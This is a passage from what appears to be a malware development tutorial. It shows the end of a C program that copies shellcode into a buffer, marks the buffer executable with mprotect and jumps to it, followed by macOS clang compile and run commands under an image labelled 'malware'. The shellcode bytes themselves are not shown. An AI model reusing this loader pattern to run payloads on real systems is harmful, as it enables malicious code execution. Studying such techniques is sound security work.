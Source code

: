 ```cpp
    perror("posix_memalign");
    return 1;
  }

  memcpy(buf, code, sizeof(code));

  // mark buffer as executable
  if (mprotect(buf, pagesize, PROT_READ | PROT_WRITE | PROT_EXEC) != 0) {
    perror("mprotect");
    return 1;
  }

  // run shellcode
  ((void(*)())buf)();

  // free(buf); // optional

  return 0;
}
```

### demo

Compilation:     

```bash
clang -arch x86_64 -o hack3 hack3.c
```

![malware](/assets/images/169/2025-08-02_09-39.png){:class="img-responsive"}    

Run:    

```bash
./hack3
```
